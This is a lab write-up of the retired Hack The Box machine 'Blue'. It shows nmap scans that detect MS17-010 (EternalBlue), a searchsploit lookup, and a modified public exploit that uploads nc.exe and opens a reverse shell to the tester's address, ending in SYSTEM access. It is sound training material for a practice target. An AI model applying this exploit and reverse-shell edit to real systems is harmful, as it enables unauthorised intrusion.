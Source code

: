 ```yaml
---
layout: post
title: Hack the Box - Blue
date: 2020-03-13 16:04:22 +0100
description: Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.
img: blue.png
fig-caption: Blue
category: [Hack the Box]
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo nmap -p- -T4 -sV 10.129.112.220
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 18:53 GMT
Nmap scan report for 10.129.112.220
Host is up (0.094s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
```
From this we can see that the ports of most interest are 135,139,445. Before attempting to scan shares that might be accessible anonymously a quick vulnerability scan shows that the server is vulnerable to MS17-010, otherwise known as EternalBlue. With the box being named Blue it is safe to assume this is a sensible attack vector.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo nmap -p139,445 --script vuln 10.129.112.225                                                                                                                                                                                   130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 19:36 GMT
Nmap scan report for 10.129.112.225
Host is up (0.016s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```
Having identified a route forward lets move on to the exploitation phase.
## Foothold
Search on exploitdb for an exploit for this vulnerability we find three to choose from.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ searchsploit eternalblue
----------------------------------------------------------------- --------------------------------
 Exploit Title                                                   |  Path
----------------------------------------------------------------- --------------------------------
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Ex   | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue'  | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote | windows_x86-64/remote/42030.py
----------------------------------------------------------------- --------------------------------
```
I chose to go with 42315, however it was written in Python 2.7 so to run this on my Kali instance with the least trouble I chose to use a docker container to run it inside.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo docker run -it -v "$(pwd)"/hackthebox/blue:/blue --entrypoint /bin/bash python:2.7.18-stretch
root@79a4e2b0be9a:/# pip install impacket
```
The exploit needs a couple of edits in order to produce a shell. First of all the username needs to be provided which in this case would be "anonymous". Secondly we need to edit the lines in the function "smb_pwn" to execute a reverse shell.
```python
#       print('creating file c:\\pwned.txt on the target')
#       tid2 = smbConn.connectTree('C$')
#       fid2 = smbConn.createFile(tid2, '/pwned.txt')
#       smbConn.closeFile(tid2, fid2)
#       smbConn.disconnectTree(tid2)

        smb_send_file(smbConn, 'nc.exe', 'C', '/nc.exe')
        service_exec(conn, r'cmd /c c:\nc.exe -nv 10.10.14.27 2121 -e cmd.exe')
```
After running this exploit using the following command our netcat listener should receive a shell if it is listening on the same port.
```
root@79a4e2b0be9a:/blue# python blue.py 10.129.112.225
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
...
Creating service ANJU.....
Starting service ANJU.....
```
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/blue]
└─$ nc -nlvp 2121
listening on [any] 2121 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.112.225] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Administrator\Desktop>whoami
whoami
nt authority\system
```
## Privilege Escalation
As we attained root from this exploit and have access to the root flag, there is no need for privilege escalation.